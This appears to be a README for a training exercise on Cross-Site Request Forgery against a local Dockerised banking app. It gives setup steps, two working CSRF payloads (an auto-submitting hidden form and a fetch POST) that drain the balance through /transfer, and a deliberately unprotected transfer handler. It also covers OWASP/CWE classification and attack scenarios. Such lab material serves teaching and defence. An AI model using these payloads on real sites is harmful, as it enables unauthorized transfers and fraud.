 # Cross-Site Request Forgery(CSRF) Vulnerability Analysis - Cybersecurity 0x1

## Usage

### Prerequisites

- Docker installed and running
- Terminal/Command line access
- Web browser (Chrome, Firefox, Safari, or Edge)

### Setup Instructions

1. **Start the Vulnerable Application**

   ```bash
   (cd ex00/cyber0x0.1.01/; ./start.sh)
   ```

   Expected output:

   ```bash
   Cleaning Docker...
   Creation of the website.
   [+] Building 0.6s (9/9) FINISHED
   [...]
   You can connect on this website:
   http://localhost:8080/
   ```

2. **Access the Application**
   - Open your web browser
   - Navigate to: `http://localhost:8080/`
   - You should see the vulnerable banking application with $1000 balance

### Testing the Payloads

#### Method 1: Simple Form Attack

1. Create attack.html with:

   ```html
   <form action="http://localhost:8080/transfer" method="POST">
      <input type="hidden" name="amount" value="1000">
   </form>
   <script>document.forms[0].submit();</script>
   ```

2. Open `attack.html` in browser while logged into the application
3. Expected result: Balance reduced to $0

#### Method 2: AJAX-based Attack

1. Create ajax-attack.html with:

   ```html
   <script>
      fetch('http://localhost:8080/transfer', {
         method: 'POST',
         headers: {'Content-Type': 'application/x-www-form-urlencoded'},
         body: 'amount=1000'
      });
   </script>
   ```

2. Open while authenticated to application
3. Expected result: Silent balance transfer

### Stopping the Application

```bash
# To stop the Docker container
docker kill cyber0x1101-app-1
```

### Troubleshooting

- **Port 8000 already in use**: Stop other services using port 8000
- Transfer not working: Ensure you're logged into the application in the same browser
- CORS errors: Use the form-based methods instead of AJAX
- Balance not updating: Refresh the banking application page

## Executive Summary

This document analyzes a Cross-Site Request Forgery (CSRF) vulnerability in a banking web application running at `http://localhost:8080/`. The vulnerability allows attackers to force authenticated users to execute unwanted financial transactions.

## Vulnerability Classification

### OWASP Classification

- OWASP Top 10: A01:2021 - Broken Access Control
- CWE Classification: CWE-352 - Cross-Site Request Forgery
- Vulnerability Type: State-changing CSRF
- Severity: High (CVSS 3.1 Base Score: 8.0)

## Technical Description

### What is Cross-Site Request Forgery (CSRF)?

CSRF is an attack that forces authenticated users to submit unintended requests to a web application. Attackers exploit the trust that a site has in a user's browser by:

- Tricking users into loading malicious pages while authenticated
- Forging requests that appear legitimate to the server
- Executing state-changing operations (transfers, password changes)
- Bypassing same-origin policy through browser cookie handling

### Banking Application Specifics

This vulnerability exists because:

1. The transfer endpoint accepts POST requests without CSRF tokens
2. Session is maintained solely via cookies
3. No origin/referer header validation
4. No secondary authentication for sensitive actions

## Vulnerability Analysis

### Code Review Findings

The vulnerable application contains two critical security flaws:

1. **Missing CSRF Protection**:

   ```javascript
   app.post('/transfer', (req, res) => {
      // No CSRF token validation
      balance -= req.body.amount;
   });
   ```

2. **Cookie Configuration Issues**:

- Session cookies lack SameSite attribute
- No Secure or HttpOnly flags

3. **No Origin Verification**:

- Accepts requests from any origin
- No referer header checking

### Attack Surface

- Entry Point: Any HTML form/request to `/transfer`
- Execution Context: Authenticated user session
- User Interaction Required: Can be fully automatic
- Persistence: Non-persistent (requires active session)

## Impact Assessment

### Immediate Risks

- Unauthorized Transfers: Full account drainage possible
- Financial Fraud: Forged transactions
- Data Integrity: Balance manipulation
- Privilege Escalation: Combined with other vulnerabilities

### Business Impact

- Financial Losses: Direct monetary theft
- Reputation Damage: Loss of customer trust
- Regulatory Fines: Potential PCI DSS violations
- Operational Costs: Fraud investigation overhead

## Real-World Attack Scenarios

### Scenario 1: Malicious Advertisement

1. Attacker purchases ad space on legitimate site
2. Embeds CSRF exploit in ad iframe
3. When banking customers view the ad:
   - Transfer executes automatically
   - Funds routed to attacker's account
   - No visible indication to user

### Scenario 2: Phishing Email Campaign

1. Victims receive "Account Verification" email
2. Contains hidden image tag with CSRF payload
3. When email loads in preview pane:
   - Silent transfer occurs
   - No clicks required

## References

- [OWASP CSRF Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html)
- [CWE-352: Cross-Site Request Forgery](https://cwe.mitre.org/data/definitions/352.html)
- [OWASP Top 10 2021 - A01 Broken Access Control](https://owasp.org/Top10/A01_2021-Broken_Access_Control/)
- [SameSite Cookies Explained](https://web.dev/samesite-cookies-explained/)
